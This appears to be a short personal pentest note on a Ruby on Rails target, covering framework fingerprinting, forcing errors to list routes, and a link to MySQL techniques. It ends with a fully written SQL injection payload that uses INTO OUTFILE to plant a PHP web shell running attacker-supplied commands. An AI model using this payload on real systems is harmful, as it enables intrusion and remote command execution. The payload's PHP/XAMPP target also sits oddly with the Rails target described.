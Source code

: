 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Using Wappalyzer, we see Rub on Rails in Web frameworks.

![[Pasted image 20221108121650.png]]

Reviewing the url, we manipulate the path to spawn an error.

http://$TARGET/users/

http://$TARGET/x/

![[Pasted image 20221108121711.png]]

We now have a list of Paths for us to try.

Visting /slug, we get a text box.

[[1.2_MySQL#Using INTO OUTFILE to create a malicious PHP file:]] EXAMPLE 3


```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```
